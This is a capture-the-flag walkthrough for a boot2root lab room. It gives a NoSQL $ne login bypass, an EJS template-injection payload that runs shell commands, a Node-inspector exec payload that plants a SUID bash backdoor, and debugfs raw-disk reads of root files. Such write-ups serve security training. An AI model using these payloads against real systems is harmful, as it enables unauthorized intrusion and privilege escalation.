




# 🛎️ Do Not Disturb: The Ultimate Hacker's Walkthrough


**Room:** Do Not Disturb (Hacker Holidays 2026 - Day 7: Act 2 - Drift)  
**Difficulty:** Medium | **Category:** Boot2Root  
**Tags:** `Web`, `Node.js`, `NoSQLi`, `SSTI`, `Node Inspector`, `Privilege Escalation`, `Disk Group`

> *"Sign's on the door. Room's active. You have access you were never given, and so does he. The anomalies stop being anomalies: a session goes warm on a sunbed, and a stranger sits down in it, a wallet signs a transaction its owner didn't authorise, a shell on the beach answers back. And it becomes clear that whoever's already inside has been moving for far longer than you have."* — Concierge Briefing

---

## 🧠 The Hacker Mindset: Our Methodology
When approaching a realistic machine like "Do Not Disturb," you can't just blindly fire exploits. You must adopt a methodical mindset:
1. **Assume Nothing, Enumerate Everything:** If a port is open, poke it. If it's closed, find out why.
2. **Context is King:** The technology stack dictates the vulnerabilities. Node.js implies NoSQL and JavaScript-based template engines.
3. **Follow the Breadcrumbs:** The room description explicitly states someone was here before us. We aren't just hacking the system; we are tracing the footsteps of an Advanced Persistent Threat (APT).
4. **Understand Linux Internals:** When standard privilege escalation tools fail, you must understand *why* the operating system is stopping you to find the workaround.

Let's dive in. Our target IP for this session is `10.114.177.55`.

---

## 🔍 Phase 1: Reconnaissance & Enumeration

### 🛠️ The Mindset
*We are standing outside the hotel. Before picking the lock, we check every window and door to see what is already open.*

We start by identifying the attack surface using Nmap.
```bash
nmap -sC -sV -p- 10.114.177.55
```

<!-- Add your Nmap screenshot here -->
> **[📷 SCREENSHOT PLACEHOLDER: Nmap Scan Results]**

**The Results & Analysis:**
*   **Port 22 (SSH):** Open, but we have no credentials. We shelf this for later.
*   **Port 80 (HTTP):** Open. The "Byte Lotus" web application. This is our primary vector.
*   **Filtered Ports:** The scan returns thousands of filtered ports. 
    *   *Hacker Insight:* Novices waste hours trying to bypass firewalls on filtered ports. An experienced hacker recognizes a tar-pit/drop policy and focuses on the explicitly open services first.

### Directory Bruteforcing
We use `feroxbuster` to map the application structure:

```bash
feroxbuster --url http://10.114.177.55/ -x php,txt,html
```

<!-- Add your Feroxbuster screenshot here -->
> **[📷 SCREENSHOT PLACEHOLDER: Feroxbuster Results]**

We discover a few key endpoints:
*   `/` (200 OK) - The main login page.
<!-- Add your Byte Lotus Login Page screenshot here -->
> 

*   `/staff` (403 Forbidden) - A protected dashboard explicitly stating "Staff access only."
<!-- Add your 403 Forbidden Staff Page screenshot here -->
> 

---

## 🚪 Phase 2: Authentication Bypass (NoSQL Injection)

### 🛠️ The Mindset
*We have a login prompt. We know the backend is Express/Node.js. In modern stacks, developers often pair Node with MongoDB. SQL Injection (`' OR 1=1--`) won't work here. We need to speak the language of NoSQL objects.*

By intercepting the login request, we see the server expects a `username` and `password`. In Express, we can pass arrays or objects by manipulating the URL parameters. We can inject the MongoDB `$ne` (Not Equal) operator.



**The Exploitation Steps:**
1.  **First Attempt:** `username=attendant&password[$ne]=` logs us in, but we get a 403 Forbidden at `/staff`. We are an attendant, but we lack the 'Staff' role.
2.  **The Master Key:** `username[$ne]=&password[$ne]=` bypasses authorization entirely.

<!-- Add your Burp Suite / Login Bypass screenshot here -->
> **[📷 SCREENSHOT PLACEHOLDER: Burp Suite NoSQLi Payload]**

By passing this payload, the server returns a valid session cookie for the administrator. We can verify this access via curl or the browser:

```bash
┌──(hacker㉿hacker)-[/mnt/c/Users/emilt]
└─$ curl -s -i 'http://10.114.177.55/staff' \
  -b 'connect.sid=s%3AAUH7TYIVvxvP91Asbi672P6lkpAvXT5U.GAurX%2BanufVwE3oInwCCsH8p4WvlO79MAOGMM1DaoiU'
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
...
```

Navigating to the `/staff` endpoint in the browser confirms our access to the Staff Dashboard.
<!-- Add your Staff Dashboard screenshot here -->
> **[📷 SCREENSHOT PLACEHOLDER: Successful Login - The Staff Dashboard]**

---

## 💻 Phase 3: Remote Code Execution (SSTI)

### 🛠️ The Mindset
*We are inside the dashboard. We look for any feature that takes our input and renders it back to the screen. The "Cabana Desk" allows us to customize booking messages.*

<!-- Add your Cabana Desk UI screenshot here -->
> 

The UI explicitly tells us: `(EJS — use <%= guest %> to personalise)`.
The developers left the door wide open. EJS (Embedded JavaScript) is a templating engine. If we can inject EJS tags, we can force the server to execute arbitrary JavaScript on the underlying operating system.

**The SSTI Payload:**
```javascript
<%- global.process.mainModule.require('child_process').execSync('id').toString() %>
```

Submitting this payload executes the `id` command and returns it to the screen. We have RCE! We immediately modify our payload to grab a reverse shell or directly extract the flag:
`cat /home/poolside/user.txt`

<!-- Add your SSTI Payload & User Flag Output screenshot here -->
> **[📷 SCREENSHOT PLACEHOLDER: SSTI Payload Execution & User Flag Output]**

We secure our first flag: **`THM{REDACTED}`**.

---

## 🕵️ Phase 4: Lateral Movement via Node Inspector

### 🛠️ The Mindset
*We use our RCE to spawn a proper shell as the `poolside` user. We want to be `root`. Standard enumeration scripts show nothing obvious. We must look at what internal services are running.*

```bash
$ id
uid=996(poolside) gid=996(poolside) groups=996(poolside)

$ ls
app.js
node_modules
package-lock.json
package.json
```

We check for other processes running on the machine:
```bash
$ ps aux | grep node
pipelin+     599  0.0  2.3 988568 45668 ?        Ssl  05:58   0:00 /usr/bin/node --inspect=127.0.0.1:9229 processor.js
poolside     600  9.0  4.6 1046868 92624 ?       Ssl  05:58   5:02 /usr/bin/node app.js
```

**Critical Finding:** The `pipelinesvc` user is running a telemetry processor with the Node Inspector (`--inspect`) enabled on localhost port `9229`. 

Because we have local access to the machine, we can connect to this debugger and execute code in the context of `pipelinesvc`.

```bash
$ node inspect 127.0.0.1:9229
connecting to 127.0.0.1:9229 ... ok
```

Inside the `debug>` prompt, we execute a payload to copy the `/bin/bash` binary into `/tmp/` and set the SUID bit, creating a backdoor:
```javascript
debug> exec(`process.mainModule.require('child_process').execSync('cp /bin/bash /tmp/pipeshell; chmod u+s /tmp/pipeshell')`)
```

We exit the debugger and trigger our SUID shell using the `-p` flag (to preserve effective privileges):
```bash
$ /tmp/pipeshell -p
$ id
uid=996(poolside) gid=996(poolside) euid=995(pipelinesvc) groups=996(poolside)
```
We have successfully achieved lateral movement!

<!-- Add your Node Debugger / Lateral Movement screenshot here -->
> **[📷 SCREENSHOT PLACEHOLDER: Node Inspect Session & `pipeshell` SUID execution]**

---

## 👑 Phase 5: The Final Strike (Disk Group Privilege Escalation)

### 🛠️ The Mindset
*We have moved laterally, but we hit a wall. `sudo -l` asks for a password. But what groups do we belong to? We bypass our shell's effective UID limitation and ask the system directly what groups the `pipelinesvc` user is in.*

```bash
pipelinesvc@tryhackme-2404:/opt$ id pipelinesvc
uid=995(pipelinesvc) gid=995(pipelinesvc) groups=995(pipelinesvc),6(disk)
```

A massive misconfiguration: The `disk` group allows raw, unrestricted read/write access to physical hard drives (e.g., `/dev/nvme0n1`), completely bypassing file permissions.

### 🛑 The SUID Trap
If you try to run `debugfs /dev/root` right now, you get **Permission Denied**. Why?
Because our SUID shell (`pipeshell -p`) only changed our *Effective User ID*. It did **not** grant us the supplementary groups attached to the `pipelinesvc` user. 

### 💡 The Epiphany
We don't need a clean shell. We already have a process running that has a clean session!
The `processor.js` script was launched by `systemd` at boot. When `systemd` starts a service, it fully initializes the user and **all supplementary groups**. That Node.js process *already has* the `disk` group privileges!

### The Final Payload
We find the true root partition using `lsblk`:
```bash
pipelinesvc@tryhackme-2404:/opt$ lsblk
NAME        MAJ:MIN RM   SIZE RO TYPE MOUNTPOINTS
...
nvme0n1     259:1    0    20G  0 disk
└─nvme0n1p1 259:2    0    20G  0 part /
```

The root partition is `/dev/nvme0n1p1`. We jump back into the Node Debugger for `processor.js` and command it to use its raw disk access to extract the root flag via `debugfs`!

```bash
pipelinesvc@tryhackme-2404:/opt$ node inspect 127.0.0.1:9229
connecting to 127.0.0.1:9229 ... ok
```

**At the `debug>` prompt:**
```javascript
debug> exec(`process.mainModule.require('child_process').execSync("/sbin/debugfs -R 'cat /root/root.txt' /dev/nvme0n1p1 > /tmp/flag.txt 2>&1")`)
Uint8Array(0)
debug> .exit
```

We exit the debugger, read the output file, and claim the final Root Flag.

```bash
pipelinesvc@tryhackme-2404:/opt$ cat /tmp/flag.txt
THM{...}
```

The room is ours. The footprint has been traced.

<!-- Add your Final Root Flag screenshot here -->
> **[📷 SCREENSHOT PLACEHOLDER: Final Root Flag Extraction via cat /tmp/flag.txt]**
